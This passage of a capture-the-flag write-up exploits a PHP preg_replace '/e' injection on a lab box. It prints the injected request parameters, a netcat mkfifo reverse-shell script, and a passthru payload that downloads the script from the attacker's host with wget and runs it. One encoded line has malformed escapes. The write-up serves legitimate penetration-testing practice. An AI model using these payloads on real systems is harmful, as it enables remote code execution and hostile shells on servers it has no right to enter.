 
Looking at the example in the 2nd image from the MadIrish article, we see that the replacement string is defined with `$string` - this seems like it would be analogous to `ipaddress` parameter in our request. That means the regex to be replaced falls under the `pattern` parameter, which is where we need to put the `e` flag. Let's give it a try.


Before, our request began with

	`pattern=/ip_address/&ipaddress=HELLO&text="openvpn": {`

Let's edit this to

	`pattern=/ip_address/e&ipaddress=passthru("whoami")&text="openvpn": { ...`

Which in URL-speak, comes out to look like

	`pattern=%2Fip_address%2Fe&ipaddress=passthru%28%22whoami%22%29&text=%22openvpn%22%3A ...`


and send our request.

<br>
![A27-POCreq](https://i.imgur.com/6N9VNfv.png)
<br>

After we step through, we see our web page has responded to our command!

<br>
![A28-POCproven](https://i.imgur.com/vuHnH31.png)
<br>

We have remote code execution!


Our command executed twice; we don't want that. This happened because "ip_address" appears twice in the text that is being operated on, so it is replaced twice. If we change our string to something that only appears once, our code will only execute once. I used the string `nobody`

I tried to execute some reverse shell scripts, but wasn't successful the first few times. Eventually, I got it to work by using a favorite trick of mine: hosting a reverse shell script on my own system using a Python Simple HTTP Server, downloading the script to a universally writable directory on the CTF Box, making this script executable and running it. I explain this in depth in the [Bulldog CTF Writeup.](https://gist.github.com/berzerk0/dd477837e5f07b05133bb21db8d51758)


Eventually, I was able to get my shell using the *netcat without e* shell from the Red Team Field Manual. Within my local `~/CTFs/europa` directory, I ran

* ` echo "rm /tmp/f; mkfifo /tmp/f; cat /tmp/f|/bin/sh -i 2>&1|nc local.machine.ip.addr SHELLPORT > /tmp/f" > script.sh`

After setting up my listener and Python Server, I prepared the PHP command,

`passthru("cd /tmp; wget http://local.machine.ip.addr:hostport/script.sh; chmod +x script.sh; sh script.sh")`

Then URL encoded and injected it from within ZAP, remembering to include my `e` flag. (Okay, I forgot the flag the first time.)

`passthru%28%22cd+%2Ftmp%3B+wget+http%3A%2F%2local.machine.ip.addr%3HOSTPORT%2Fscript.sh%3B+chmod+%2Bx+script.sh%3B+sh+script.sh%22%29`
